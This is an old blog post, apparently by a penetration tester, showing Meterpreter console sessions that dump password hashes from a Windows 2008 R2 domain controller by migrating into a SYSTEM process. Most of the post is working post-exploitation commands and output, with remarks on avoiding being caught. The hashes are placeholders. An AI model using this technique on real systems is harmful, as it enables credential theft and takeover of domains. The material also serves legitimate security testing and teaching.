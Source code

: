 ---
author: mubix
comments: true
date: 2011-05-16 02:35:31+00:00
layout: post
title: Dumping Hashes on Win2k8 R2 x64 with Metasploit
categories:
- hashdump
- metasploit
- meterpreter
- cracking
---

When trying to dump password hashes on a Windows 2008 R2 64 bit box I constantly run into the "The parameter is incorrect" error in meterpreter. So I've had to fall back on dropping binaries which I really don't like doing because of the added clean up and chance of getting 'caught'. Well, with a bit of migration you'll be back to passing the hash. Here is how, with a bit of the thought process first:

```
                ##                          ###           ##    ##
 ##  ##  #### ###### ####  #####   #####    ##    ####        ######
####### ##  ##  ##  ##         ## ##  ##    ##   ##  ##   ###   ##
####### ######  ##  #####   ####  ##  ##    ##   ##  ##   ##    ##
## # ##     ##  ##  ##  ## ##      #####    ##   ##  ##   ##    ##
##   ##  #### ###   #####   #####     ##   ####   ####   #### ###
                                      ##


       =[ metasploit v3.7.1-release [core:3.7 api:1.0]
+ -- --=[ 687 exploits - 364 auxiliary - 43 post
+ -- --=[ 217 payloads - 27 encoders - 8 nops
       =[ svn r12622 updated today (2011.05.15)

msf > 
[*] DC_IP:49220 Request received for /AYSBk...
[*] DC_IP:49220 Staging connection for target YSBk received...
[*] Patching Target ID YSBk into DLL
[*] DC_IP:49221 Request received for /BYSBk...
[*] DC_IP:49221 Stage connection for target YSBk received...
[*] Meterpreter session 7 opened (ATTACKER_IP:443 -> DC_IP:49221) at Sun May 15 21:37:31 +0000 2011

msf > sessions -i 7
[*] Starting interaction with 7...

meterpreter > sysinfo
System Language : en_US
OS              : Windows 2008 R2 (Build 7601, Service Pack 1).
Computer        : DOMAINCONTROLLE
Architecture    : x64 (Current Process is WOW64)
Meterpreter     : x86/win32

meterpreter > ps

Process list
============

 PID   Name                                       Arch  Session  User                          Path
 ---   ----                                       ----  -------  ----                          ----
 0     [System Process]                                                                        
 4     System                                     x64   0                                      
 224   smss.exe                                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 324   csrss.exe                                  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 364   csrss.exe                                  x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 372   wininit.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 404   winlogon.exe                               x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 468   services.exe                               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 476   lsass.exe                                  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 484   lsm.exe                                    x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 628   svchost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 708   svchost.exe                                x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 804   svchost.exe                                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 836   svchost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 880   svchost.exe                                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 932   svchost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 972   svchost.exe                                x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 328   svchost.exe                                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1172  spoolsv.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1204  Microsoft.ActiveDirectory.WebServices.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe
 1252  dfsrs.exe                                  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\dfsrs.exe
 1288  dns.exe                                    x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\dns.exe
 1316  ismserv.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\ismserv.exe
 1360  svchost.exe                                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1392  vmtoolsd.exe                               x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 1464  wlms.exe                                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wlmswlms.exe
 1492  dfssvc.exe                                 x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\dfssvc.exe
 1572  VMUpgradeHelper.exe                        x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\VMware\VMware Tools\VMUpgradeHelper.exe
 1896  TPAutoConnSvc.exe                          x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\VMware\VMware Tools\TPAutoConnSvc.exe
 2016  vds.exe                                    x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\vds.exe
 872   sppsvc.exe                                 x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 1268  WmiPrvSE.exe                               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wbemWmiPrvSE.exe
 2360  taskhost.exe                               x64   1        SITTINGDUCK\juser             C:\Windows\System32\taskhost.exe
 2424  dwm.exe                                    x64   1        SITTINGDUCK\juser             C:\Windows\System32\dwm.exe
 2452  explorer.exe                               x64   1        SITTINGDUCK\juser             C:\Windows\explorer.exe
 2504  TPAutoConnect.exe                          x64   1        SITTINGDUCK\juser             C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe
 2512  conhost.exe                                x64   1        SITTINGDUCK\juser             C:\Windows\System32\conhost.exe
 2632  VMwareTray.exe                             x64   1        SITTINGDUCK\juser             C:\Program Files\VMware\VMware Tools\VMwareTray.exe
 2640  VMwareUser.exe                             x64   1        SITTINGDUCK\juser             C:\Program Files\VMware\VMware Tools\VMwareUser.exe
 2716  mmc.exe                                    x64   1        SITTINGDUCK\juser             C:\Windows\System32\mmc.exe
 3052  mscorsvw.exe                               x86   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Frameworkv4.0.30319\mscorsvw.exe
 2216  TrustedInstaller.exe                       x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe
 1932  mscorsvw.exe                               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft\.NET\Framework\64\v4.0.30319\mscorsvw.exe
 2564  svchost.exe                                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1732  msdtc.exe                                  x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\msdtc.exe
 2992  notepad.exe                                x86   1        SITTINGDUCK\juser             C:\Windows\SysWOW64\notepad.exe
 1720  notepad.exe                                x64   1        SITTINGDUCK\juser             C:\Windows\System32\notepad.exe


meterpreter > getpid
Current pid: 2992

meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
```

Ah, the wonderful 'The parameter is incorrect' error. Ok we are an admin since we can see the user for SYSTEM processes, so that isn't the issue, but lets do a 'getprivs' just in case:

```
meterpreter > getprivs    
============================================================
Enabled Process Privileges
============================================================
  SeDebugPrivilege
  SeIncreaseQuotaPrivilege
  SeMachineAccountPrivilege
  SeSecurityPrivilege
  SeTakeOwnershipPrivilege
  SeLoadDriverPrivilege
  SeSystemProfilePrivilege
  SeSystemtimePrivilege
  SeProfileSingleProcessPrivilege
  SeIncreaseBasePriorityPrivilege
  SeCreatePagefilePrivilege
  SeBackupPrivilege
  SeRestorePrivilege
  SeShutdownPrivilege
  SeSystemEnvironmentPrivilege
  SeChangeNotifyPrivilege
  SeRemoteShutdownPrivilege
  SeUndockPrivilege
  SeEnableDelegationPrivilege
  SeManageVolumePrivilege

meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
```

Boo.. Ok, so maybe we have to be 'SYSTEM'...

```
meterpreter > getsystem
...got system (via technique 1).

meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
```

Still nothing... Maybe it requires that we be in a 64 bit process... PID 1720 was 64 bit version of Notepad, lets try that...

```
meterpreter > migrate 1720
[*] Migrating to 1720...
[*] Migration completed successfully.

meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
```
Damn, what about as 'SYSTEM'...

```
meterpreter > getsystem ...got system (via technique 1).  
meterpreter > hashdump 
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
```

No joy.. hmmm What about a 'SYSTEM' process that was already there.. 'dns.exe' PID 1288 should be good...

```
meterpreter > migrate 1288
[*] Migrating to 1288...
[*] Migration completed successfully.

meterpreter > hashdump
Administrator:500:MYLMHASH:MYNTLMHASH:::
Guest:501:MYLMHASH:MYNTLMHASH:::
krbtgtG:502:MYLMHASH:MYNTLMHASH:::
Domain Admin?:1000:MYLMHASH:MYNTLMHASH:::
juserN:1104:MYLMHASH:MYNTLMHASH:::
jane.user??:1105:MYLMHASH:MYNTLMHASH:::
DOMAINCONTROLLE$?:1001:MYLMHASH:MYNTLMHASH:::

meterpreter > 
```

w00t. So I don't know why, but it seems that you have to be in a 'SYSTEM' process who's primary token (started by SYSTEM) is SYSTEM (since 'getsystem' wasn't working). I also tried this getting SYSTEM to run a 32 bit process, and was still unable to dump hashes. So next time you're on an Win2k8 R2 64 bit box, remember to migrate into a pre-existing 64bit SYSTEM process and you should be good to go.

**Update** on 2011-05-15 23:39 by Rob Fuller

As Gavin points out in the comments, it is better to run the meterpreter script or post module to do hashdumping on systems. The only time this is not the case is when you are trying to get domain hashes on a domain controller. The registry does not store these hashes (as far as I know). So LSASS injection is the only route and you have to jump through the mentioned hoops.
